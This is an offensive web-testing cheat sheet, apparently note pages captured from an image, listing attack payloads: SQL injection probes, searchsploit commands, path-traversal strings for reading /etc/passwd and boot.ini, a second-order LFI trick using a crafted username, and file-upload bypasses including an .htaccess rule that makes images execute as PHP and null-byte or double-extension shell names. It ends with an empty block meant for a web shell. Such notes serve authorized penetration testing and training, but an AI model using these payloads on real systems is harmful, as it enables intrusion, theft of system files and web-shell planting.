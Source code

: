#### Text Boxes
- `'`  on every text box. if leads to error, try:
```
' or 1=1 limit 1;-- -
```
- if that succeeds, SQL injection!
Google the http-title

`searchsploit service version`

`searchsploit /path/to/exploit -m`
- copy to current directory

`searchsploit /path/to/exploit -x`
- view exploit

#### File Inclusion LFI RFI
?param=
```
../../../../../etc/passwd
```
- linux
```
..\..\..\..\..\Windows\boot.ini
```
- windows
- also sometimes forward slashes work `../../../../../../Windows/boot.ini`
###### Second-Order LFI attack
- if you also have ability to create a user account & access a URL subdirectory that contains your username, try naming the account "../../../etc/passwd" then accessing that URL
	- might need to use null bye injection or other bypass to end string if subdirectory of URL isn't end of URL
		- ex: /profile/$username/avatar.png
			- try: /profile/../../../etc/passwd%00

#### File Upload:
Upload filters are either:
1. File Extensions
2. Content-Type
3. Magic Number
- ##### Extensions
	- .pHp or .PHP case variations
	- check other extensions
	- shell.php.jpg double extensions
		- for double extension, also upload `.htaccess` file to same directory as shell (make sure to turn on hidden files from upload dialog box) that contains:
```
AddType application/x-httpd-php .jpg
AddType application/x-httpd-php .jpeg
AddType application/x-httpd-php .png
AddType application/x-httpd-php .gif
```
- Content-Type
	- If expecting an image file, set Content-Type to image/jpeg or image/png and upload a php file
	- remove Content-Type and see if server defaults to a certain type
- Null byte injection
	- shell.php%00.jpg
- Special characters
	- shell.php;.jpg
	- shell.php:.jpg
- Directory Traversal
	- ../uploads/shell.php
- overwrite files
	- upload file with same name as existing, see if it overrides
Create file named dank.php with contents (base64 decode)
```
```